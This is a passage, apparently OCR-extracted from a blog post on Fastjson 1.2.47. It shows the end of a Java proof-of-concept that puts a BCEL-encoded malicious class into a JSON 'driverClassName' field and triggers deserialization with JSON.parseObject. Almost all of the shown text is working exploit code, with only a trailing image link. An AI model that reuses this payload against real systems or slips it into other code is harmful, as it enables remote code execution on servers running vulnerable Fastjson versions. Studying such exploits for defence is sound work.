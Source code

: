 ```
                "        \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuU$5d$5b$gW$Q$7e$P$y$9ce$5dE$c1$8fPm$9b$a4i$82$c6$40$9b$a4$b5Uc$ad$d64$l$abI$c5$9an$T$93$y$cb$BWq$97gY$fa$e4$l$e5$3a7$90$a7$3cM$efz$d1$7f$d2$3f$d1t$ce$82$Y$Krqfg$e6$9d$d9$99w$e6$y$7f$ff$fb$fb$3b$A$b7q$aca$Ww8$d68$beS$b1$ae$e2$7b$N$Rl$c8cS$c3$P$d8$e2$b8$ab$e2G$N$f7p_C$C$P8$kj$Y$85$c1$b1$ad$n$89$3bR$d9$91O$8fT$3c$e6$f8I$3e$eej$98DA$c5$9e$86$8f$f0$b3T$f69$9ep$fc$c2$Q_u$5c$tXc$88f$e7$f7$Z$94M$af$q$Y$92$86$e3$8a$9d$c6IQ$f8$7bV$b1J$96$94$e1$d9Vu$df$f2$j$a9w$8dJp$e8$d4$ZF$8c$3dQ$P$b6$7c$df$f3W$c8$u$5e$J$9ba$wk$iY$bfY$f9$aa$e5V$f2$85$c0w$dc$ca$8a$7cC$d4$3e$v$c9t$DN$aa$a5$k$f8$c2$3a$a1$d8$8e$d7$f1$f2$f7$ddZ$p$u$84f$J$mY$S$3e$c3$ec0$c0n$e8$q$d8X$b1Q$$$L_$94v$bb$f0$L$3d$f8F$9fG$a6$ec$60$7b$98$P$w$ea$60eGUb$83a$b4$QX$f6$f1$b6U$L$bb$a7$f9p$984$N$g$Aq$cf$a0m$bd$b2E$zp$3c$97$uQW$edj$97X$sz$N$85$c9$7b$b0$V$9a$O$85$V$bc$86o$8b$bb$8e$qt$acGdN$G$e8$98$c3$c7T$daY$f0c$df$b3E$bd$be$d1p$aaag$e3$ff$_$9a$81$T$c19$9a$BC$qo$cb$M$bf$eax$8ag$i$H$3a$9e$e3$FC$e6$5c$eeh$3a$95$e21$c7K$j$W$8a2$96$G9$3d$9c$3b$e9$z$9dz$HX$d3$nP$d6Q$c1$n$R$a01$a4$87$f4$af$c3$91$989$5c$n$be$9c$9a$ed$b9e$a7$a2$e33$5c$d1q$q$fbN$f4$d8$e8k$f4Q$f1H$d8$c1i$ce$fe$3e$a8$a0$ec$d3$e1$8b$X$ab$H$96$l$c8$c5$9c7$G$I$a5$vO$M$Yi$k$V$R$f4e$9f9$N$k$d8$cd$ce$90$5c$b2$db$87$96_$XA$7e$b3$pi$oe$cf$df$b1Nh$o$b9a$97$c28$_$92$b2$de$cc$O$7d$dd$f9$n$b2$d3$f4YPw$cf$a5U$95$97$c7$I7y$b2$8f$82$b3$fbg$d5j$c2$a5$a1$$$9e_$e6$b0$fb$a1$G$de$e9$f2$rk$q$83$f0$a2$ec$f9$96$zp$89$be8$b3$90$bf$u$98$5cg$3a$3f$n$zO$92$91$8c$z$b4$c0$de$d0C$E$9f$d2$Z$P$8dq$5c$a4S$ef$A$u$c5e$92$J$b9$Y$84$a2$60$a6$Q$oN$b6$a36$of$fc$PD$cdhJ$v$98J$wV0c$L$85$W$e2M$f0$sT$a3$8d$84y$3d$a5$bd$c5H$L$fav$h$a3$e6b$Lc$3bm$q$cd$W$c6$97$V$b6$i$bb$d1$c4$84$b9$i$fb$L$e9$8c$92$895$91J$a5$e9x$f2$fa$fd$3fmL$9a$Z$a5$89$a9$W$a6$ff$M$h$90$V$5e$86Jg$92$w$iG$O$TXB$K$ebHc$93$be$aa$db$98$c2$Bf$c2$ea$d7$3a$V$e2s$5c$ry$R$Pp$NY$ea$u$87U$ccc$81$3aY$c2$z$5c$c7$o$e5$5d$t$fd$Gy$U$car$8d$a8$b9J$5d$7fAQs$88$bc$tS$9c$e3K$8e$9b$i$b78ns$7cE$w$90$c1$d7$84P$u$e3$qU$b4$d4$p$f6$a0K$ecXj$e6$z$$$bc$86$fap$a1$89$cc$9b$$$97$w$a1$3b$7dL$93$sY$8d$R$cf$w$e4_$c9$I$fds$8c$f6$98OP$eeo$f0$zi$b2$S$8e$c8$3d$8ee$f9$ba$95pX$ab$ff$B$cc$8e$5el$b2$G$A$A\"\n" +
                "    }\n" +
                "}";
        

        JSONObject json = JSON.parseObject(json_1);
        json.toJSONString();
    }
}

```

![15](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/fastjson_47/16.png)
